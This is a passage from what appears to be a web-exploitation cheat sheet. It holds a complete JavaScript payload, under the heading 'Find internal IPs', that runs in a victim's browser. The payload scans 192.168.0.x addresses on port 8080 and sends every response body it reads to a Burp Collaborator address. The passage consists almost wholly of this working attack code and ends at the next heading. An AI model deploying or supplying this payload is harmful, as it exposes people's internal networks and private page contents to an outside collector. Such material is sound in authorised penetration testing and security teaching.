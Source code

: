 ### Find internal IPs

```html
<script>
var q = []
var collaboratorURL = 'http://5ntrut4mpce548i2yppn9jk1fsli97.burpcollaborator.net';
var wait = 2000
var n_threads = 51

// Prepare the fetchUrl functions to access all the possible
for(i=1;i<=255;i++){
  q.push(
  function(url){
    return function(){
        fetchUrl(url, wait);
    }
  }('http://192.168.0.'+i+':8080'));
}

// Launch n_threads threads that are going to be calling fetchUrl until there is no more functions in q
for(i=1; i<=n_threads; i++){
  if(q.length) q.shift()();
}

function fetchUrl(url, wait){
    console.log(url)
  var controller = new AbortController(), signal = controller.signal;
  fetch(url, {signal}).then(r=>r.text().then(text=>
    {
        location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
    }
  ))
  .catch(e => {
  if(!String(e).includes("The user aborted a request") && q.length) {
    q.shift()();
  }
  });

  setTimeout(x=>{
  controller.abort();
  if(q.length) {
    q.shift()();
  }
  }, wait);
}
</script>
```

### Port Scanner (fetch)
